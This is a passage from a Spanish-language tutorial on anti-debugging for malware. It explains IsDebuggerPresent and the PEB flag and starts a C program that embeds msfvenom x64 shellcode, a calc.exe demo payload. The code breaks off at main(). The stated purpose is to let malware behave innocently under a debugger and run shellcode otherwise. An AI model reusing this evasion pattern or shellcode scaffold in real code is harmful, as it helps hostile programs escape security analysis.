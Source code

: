 ## Anti debug (AntiDBG)

Las tecnicas anti debug se usan para evadir los depuradores como OllyDbg, x64dbg, windbg, etc, esto con el fin para que el malware evite ser analizado en un depurador.

La tecnias ma simple que pueda existir es usar la funcion ```IsDebuggerPresent```, lo que hace esta funcion es determinar si una aplicacion esta siendo ejecutada en un depurador o no para que pueda modificar su comportamiento, por detras lo que hace la funcion es checar la flag ```BeingDebugged``` esta activa, esta flag se encuentra en ```Process Environment Block(PEB)```:

```c
typedef struct _PEB{
    UCHAR InheritedAddressSpace;
    UCHAR ReadImageFileExecOptions;
    UCHAR BeingDebugged;
    
    ...
}
```

la sintaxis es:

```c
BOOL IsDebuggerPresent();
```
Y la podemos aplicar de esta forma

```c
if (IsDebuggerPresent()){ 
	//si se encuentra en un depurador podemos realizar otro comportamiento que parezca inofensivo
}else{
    // si no, podemos ejecutar lo que queremos, en este caso, la shellcode
}
```

Una vez sabiendo como funcionan ambas cosas, este es codigo completo en C

```c
#include <stdio.h>
#include <windows.h>

// shellcode: msfvenom -p windows/x64/exec CMD=calc.exe -f c

unsigned char shellcode[] = {
	"\xfc\x48\x83\xe4\xf0\xe8\xc0\x00\x00\x00\x41\x51\x41\x50"
	"\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52"
	"\x18\x48\x8b\x52\x20\x48\x8b\x72\x50\x48\x0f\xb7\x4a\x4a"
	"\x4d\x31\xc9\x48\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\x41"
	"\xc1\xc9\x0d\x41\x01\xc1\xe2\xed\x52\x41\x51\x48\x8b\x52"
	"\x20\x8b\x42\x3c\x48\x01\xd0\x8b\x80\x88\x00\x00\x00\x48"
	"\x85\xc0\x74\x67\x48\x01\xd0\x50\x8b\x48\x18\x44\x8b\x40"
	"\x20\x49\x01\xd0\xe3\x56\x48\xff\xc9\x41\x8b\x34\x88\x48"
	"\x01\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41"
	"\x01\xc1\x38\xe0\x75\xf1\x4c\x03\x4c\x24\x08\x45\x39\xd1"
	"\x75\xd8\x58\x44\x8b\x40\x24\x49\x01\xd0\x66\x41\x8b\x0c"
	"\x48\x44\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04\x88\x48\x01"
	"\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58\x41\x59\x41\x5a"
	"\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48\x8b"
	"\x12\xe9\x57\xff\xff\xff\x5d\x48\xba\x01\x00\x00\x00\x00"
	"\x00\x00\x00\x48\x8d\x8d\x01\x01\x00\x00\x41\xba\x31\x8b"
	"\x6f\x87\xff\xd5\xbb\xf0\xb5\xa2\x56\x41\xba\xa6\x95\xbd"
	"\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
	"\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
	"\xd5\x63\x61\x6c\x63\x2e\x65\x78\x65\x00"
};

int main(){	
```
